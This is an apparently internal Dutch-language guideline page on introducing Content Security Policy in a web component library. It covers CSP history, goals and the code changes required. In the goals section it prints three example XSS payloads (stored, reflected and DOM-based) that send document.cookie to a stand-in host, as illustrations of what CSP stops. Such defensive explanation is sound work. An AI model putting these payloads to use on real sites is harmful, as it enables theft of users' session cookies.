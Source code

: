 
<Meta title="Richtlijnen/CSP/Content Security Policy"/>

# Content Security Policy (WIP)

Zie ook de [Confluence pagina](https://www.milieuinfo.be/confluence/display/FEO/CSP+compliance) over dit onderwerp<br/>
&nbsp;&nbsp;-> op te nemen op of naast deze pagina en te verwijderen uit confluence

## Inleiding

Volgende zaken zijn er al gedaan m.b.t. CSP:

### januari 2023

In het kader van ticket [UIG-2207](https://www.milieuinfo.be/jira/browse/UIG-2207) zijn er beperkt zaken bekeken.

### maart 2023

Het volgende is gemeld op de [TAW van 02/03/2023](https://www.milieuinfo.be/confluence/display/AEO/2023-03-02%3A%3A+Verslag)
door Christophe De Blende en besproken:

> Ik heb zo het gevoel dat de urgentie van CSP onderschat wordt. Hier een paar statistieken van de verschillende
aanvallen die op de RP innet gecapteerd worden: <a href="top-threats-20221013.pdf" target="_blank">23/10/2022</a>, <a href="top-threats-20230213.pdf" target="_blank">23/02/2023</a> en <a href="top-threats-20230227.pdf" target="_blank">27/02/2023</a>.
Van belang, al wat via SSL gebeurt zien we zelf niet. Dus er zijn veel exploits die nog niet gedetecteerd worden
omwille van de huidige firewall / ssl terminatie setup.<br/>
Er is wel een tijdje een firewall loop toegevoegd geweest om log4j shell exploit te kunnen firefighten en deze
statistieken zijn ook meegenomen. Om aan te geven dat je met een factor 100 mag vermenigvuldigen wat je nu ziet
in de dagdagelijkse statistieken.

Hierbij zijn er volgende vragen / bemerkingen:
- hoe verhouden die statistieken zich tot CSP: welke zullen er verminderen / verdwijnen als CSP actief wordt ?
- het 'algemeen activeren van CSP' op de reverse-proxy (wat Lode al eens geprobeerd zou hebben - op ontwikkel?) is
  niet zinvol, veel toepassingen zullen dan niet meer werken
- CSP activatie zou applicatie per applicatie moeten doorgevoerd worden, omdat dit een grote doorlooptijd
  (maanden / jaren) zal hebben zouden statistieken per sub-domein uitgesplitst moeten worden om impact te kunnen zien

### november 2023

Sinds eind 2023 worden de form componenten herschreven. We streven er naar die ineens CSP compliant te maken. We
doen dit o.a. door de CSP compliancy af te testen in de integrator-app.

### april 2024

In de 2e helft van 2024 worden alle elementen omgezet naar volwaardige componenten. Ook deze nieuw code wordt ineens
CSP compliant gemaakt.


## CSP en XSS

Eén van de belangrijkste zaken waartegen je je kan beschermen met CSP is tegen Cross Side Scripting (XSS). Een uitleg
van wat XSS is vind je in het artikel [cross site scripting xss](https://auth0.com/blog/cross-site-scripting-xss), hoe
je je dan met CSP daartegen kan beschermen staat uitgelegd in
[defending against xss with csp](https://auth0.com/blog/defending-against-xss-with-csp). Voor toepassingen die een SPA
opzet volgen is er het specifiekere artikel [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).


## Doelen

Het hoofddoel om CSP te activeren is om te zorgen dat een webtoepassing enkel eigen, vertrouwde code bevat en uitvoert.
Enkel de eigen geschreven / voorziene javascript, html en css mag getoond en uitgevoerd worden. Wijzigen, tonen of
uitvoeren van 'andere' code wordt afgeblokt. Voorbeelden hiervan zijn:

### Stored XSS tegenhouden

In input velden zou malicious code ingevoerd kunnen worden conform:

```
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>
```

Als deze code dan (denk bvb. in het geval van een blog) door een andere gebruiker geopend en uitgevoerd wordt kunnen er
ongewenst gegevens gecapteerd worden.

### Reflected XSS tegenhouden

Links (aangeboden via een href of verborgen via een shortening service) die refereren naar een toepassing kunnen
scripts bevatten:

```
http://localhost:3000/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A4000%3Fdata%3D%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E
```

### DOM based XSS tegenhouden

In de DOM kan (door via een malicious website omgeleid te zijn) geldige, maar kwaadwillige html gestoken zijn.

```
<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)/>
```

### CSS XSS tegenhouden

Zie het filmpje en de presentatie op [xss no the other s](https://mikewest.org/2013/09/xss-no-the-other-s-cssconfeu-2013).


## CSP activeren

Wat er praktisch dient te gebeuren naar deploy en configuratie toe om CSP te activeren voor de complexere
toepassingen wordt beschreven in [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).

Alvorens dit echter kan zullen er code wijzigingen moeten gebeuren, denk hierbij aan:

- inline javascript mag niet - alle javascript moet in aparte .js bestanden gestoken worden<br/>
  -> de overgrote meerderheid van onze webcomponenten heeft geen inline javascript<br/>
  -> toepassing per toepassing moet bekeken worden om dat eventueel weg te werken
- inline styling mag niet<br/>
  -> zowel in de webcomponenten als in toepassingen zal dit voorkomen, veel meer dan inline javascript
- voor externe componenten moet geëvalueerd worden hoe we ze CSP gewijs kunnen gebruiken, 2 belangrijke zijn
  [TinyMCE](https://www.tiny.cloud/docs/tinymce/6/tinymce-and-csp/) en de
  [global header en footer](https://www.vlaanderen.be/digitaal-vlaanderen/onze-oplossingen/mijn-burgerprofiel/global-header-en-footer)
  van Digitaal Vlaanderen
